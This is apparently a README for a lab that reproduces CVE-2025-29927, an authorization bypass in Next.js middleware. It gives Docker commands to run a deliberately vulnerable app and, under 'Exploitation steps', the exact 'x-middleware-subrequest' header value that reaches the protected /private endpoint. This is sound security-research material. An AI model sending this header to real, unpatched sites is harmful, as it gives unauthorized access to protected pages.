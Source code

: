 # Next.js Middleware Exploit: CVE-2025-29927 Authorization Bypass POC
This folder contains a sample web application vulnerable to [CVE-2025-29927](https://zeropath.com/blog/nextjs-middleware-cve-2025-29927-auth-bypass), a vulnerability in NextJS allow authorization bypass by adding special header.

## Running the application

Run it:


```
docker build . -t vulnerable-app
docker run -p 3000:3000 --name vulnerable-app --rm vulnerable-app
```

## Exploitation steps

The application has a private endpoint `/private` that is accessible only for authenticated users.  


You can bypass authentication by adding the following HTTP header to the request:

```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```